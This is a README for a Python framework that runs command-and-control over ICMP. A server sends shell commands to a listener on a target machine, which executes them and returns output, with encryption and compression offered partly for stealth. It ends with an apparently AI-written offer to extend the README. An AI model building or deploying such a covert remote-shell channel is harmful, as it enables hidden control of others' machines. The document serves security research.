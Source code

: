 

````markdown
# ICMP Command & Control Framework

This project provides a pair of Python scripts that demonstrate **command and control (C2) over ICMP**:

- **Server** (`icmp_command_server.py`)  
  - Sends commands to connected listeners using ICMP Echo Requests.  
  - Receives and processes responses from listeners.  
  - Manages active listener sessions via heartbeats.  

- **Listener** (`icmp_listener.py`)  
  - Runs on a target machine.  
  - Receives ICMP Echo Requests from the server, extracts and executes commands.  
  - Sends command output back via ICMP Echo Replies.  
  - Sends periodic heartbeats to let the server know it is alive.  

> ⚠️ **Disclaimer**: This framework is for **educational and authorized security research only**.  
> Unauthorized use of this tool on networks you do not own or control is illegal.

---

## Features

- **Server**
  - Interactive shell interface
  - `list` command to show active listeners
  - Supports command broadcast to all listeners
  - Handles chunked responses for large outputs

- **Listener**
  - Executes received commands via system shell
  - Sends responses back in multiple chunks if needed
  - Periodic heartbeat system to notify the server of availability

- **Shared Options**
  - Configurable **ICMP ID** and **TTL**
  - Data encoding: `plain`, `base64`, `hex`
  - Optional compression
  - Optional encryption with [Fernet](https://cryptography.io/en/latest/fernet/) symmetric keys
  - Chunked transmission for large payloads

---

## Requirements

- Python **3.7+**
- [Scapy](https://scapy.net/)  
- [cryptography](https://pypi.org/project/cryptography/)

Install dependencies:

```bash
pip install scapy cryptography
````

---

## Usage

### 1. Configure the Listener

Edit the listener script (`icmp_listener.py`) and set your **server IP** at the top:

```python
SERVER_IP = "10.218.248.63"  # Change to your server's IP
```

---

### 2. Start the Server

```bash
python3 icmp_command_server.py -i <INTERFACE> [options]
```

### 3. Start the Listener

```bash
python3 icmp_listener.py -i <INTERFACE> [options]
```

---

## Arguments

Both **server** and **listener** support the following options:

| Option              | Description                                                         | Default      |
| ------------------- | ------------------------------------------------------------------- | ------------ |
| `-i`, `--interface` | Network interface to sniff and send packets on                      | **Required** |
| `--icmp-id`         | ICMP identifier value                                               | `13170`      |
| `--ttl`             | Time-to-live for sent IP packets                                    | `64`         |
| `--encoding`        | Data encoding method (`plain`, `base64`, `hex`)                     | `plain`      |
| `--compress`        | Enable compression before sending                                   | Disabled     |
| `--encrypt`         | Enable encryption (requires `--key`)                                | Disabled     |
| `--key`             | Encryption key for Fernet (must be provided if `--encrypt` is used) | None         |
| `--chunk-size`      | Maximum size (bytes) per packet payload                             | `500`        |

---

## Example Commands

### Run server with base64 encoding and compression

```bash
python3 icmp_command_server.py -i eth0 --encoding base64 --compress
```

### Run listener with encryption enabled

```bash
# Generate a Fernet key
python3 -c "from cryptography.fernet import Fernet; print(Fernet.generate_key().decode())"

# Run listener with encryption
python3 icmp_listener.py -i wlan0 --encrypt --key <YOUR_KEY>
```

### Send commands from server

Inside the server’s interactive shell:

```
shell> list
Connected listeners:
  - 10.218.248.42

shell> whoami
shell> uname -a
shell> exit
```

---

## Packet Flow Diagram

```
[Server] --(ICMP Echo Request + Command)--> [Listener]
[Listener] --(ICMP Echo Reply + Response)--> [Server]
[Listener] --(ICMP Echo Request + Heartbeat)--> [Server]
```

---

## Security Notes

* **Encryption**: Use Fernet with a shared key between server and listener for confidentiality.
* **Compression**: Reduces packet size, potentially helping with stealth.
* **Encoding**: Use `base64` or `hex` for safer transmission of binary data.
* **Detection**: ICMP-based C2 can be detected by IDS/IPS systems monitoring unusual ICMP payloads.

---

## Disclaimer

This software is intended **solely for research, learning, and authorized security testing**.
The author assumes no liability for misuse. Always ensure you have explicit permission before testing on any network.

---

```

Do you want me to also add a **"Quick Start Demo" section** where I show server + listener running together in a simulated session (command sent → response received), so the README looks like a tutorial?
```
